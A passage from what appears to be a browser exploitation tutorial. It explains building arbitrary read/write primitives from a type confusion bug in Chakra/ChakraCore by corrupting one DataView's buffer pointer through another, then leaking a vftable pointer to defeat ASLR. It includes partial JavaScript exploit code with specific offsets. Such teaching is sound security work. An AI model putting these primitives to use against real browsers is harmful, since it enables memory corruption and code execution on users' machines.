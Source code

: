 We can see we added a few things above. The first is our `hex()` function, which really is just for "pretty printing" purposes. It allows us to convert a value to hex, which is obviously how user-mode addresses are represented in Windows.

Secondly, we can see our `read64()` function. This is practically identical to what we displayed with the arbitrary write primitive. We use `dataview1` to corrupt the `buffer` of `dataview2` with the address we want to read from. However, instead of using `dataview2.setUint32()` to overwrite our target address, we use the `getUint32()` method to retrieve `0x8` bytes from our target address.

Lastly, `write64()` is _identical_ to what we displayed in the code before the code above, where we walked through the process of performing an arbitrary write. We have simply "templatized" the read/write process to make our exploitation much more efficient.

With a read/write primitive, the next step for us will be bypassing ASLR so we can reliably read/write data in memory.

Bypassing ASLR - Chakra/ChakraCore Edition
---
When it comes to bypassing ASLR, in "modern" exploitation, this requires an information leak. The 64-bit address space is too dense to "brute force", so we must find another approach. Thankfully, for us, the way Chakra/ChakraCore lays out JavaScript objects in memory will allow us to use our type confusion vulnerability and read primitive to leak a `chakracore.dll` address quite easily. Let's recall the layout of a dynamic object in memory.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion61.png" alt="">

As we can see above, and as we can recall, the first hidden property of a dynamic object is the `vftable`. This will always point somewhere into `chakracore.dll`, and `chakra.dll` within Edge. Because of this, we can simply use our arbitrary read primitive to set our target address we want to read from to the `vftable` pointer of the `dataview2` object, for instance, and read what this address contains (which is a pointer in `chakracore.dll`)! This concept is very simple, but we actually can more easily perform it by _not_ using `read64()`. Here is the corresponding code.

```javascript
// Creating object obj
// Properties are stored via auxSlots since properties weren't declared inline
obj = {}
obj.a = 1;
obj.b = 2;
obj.c = 3;
obj.d = 4;
obj.e = 5;
obj.f = 6;
obj.g = 7;
obj.h = 8;
obj.i = 9;
obj.j = 10;

// Create two DataView objects
dataview1 = new DataView(new ArrayBuffer(0x100));
dataview2 = new DataView(new ArrayBuffer(0x100));

// Function to convert to hex for memory addresses
function hex(x) {
    return x.toString(16);
}

// Arbitrary read function
function read64(lo, hi) {
	dataview1.setUint32(0x38, lo, true); 		// DataView+0x38 = dataview2->buffer
	dataview1.setUint32(0x3C, hi, true);		// We set this to the memory address we want to read from (4 bytes at a time: e.g. 0x38 and 0x3C)

	// Instead of returning a 64-bit value here, we will create a 32-bit typed array and return the entire away
```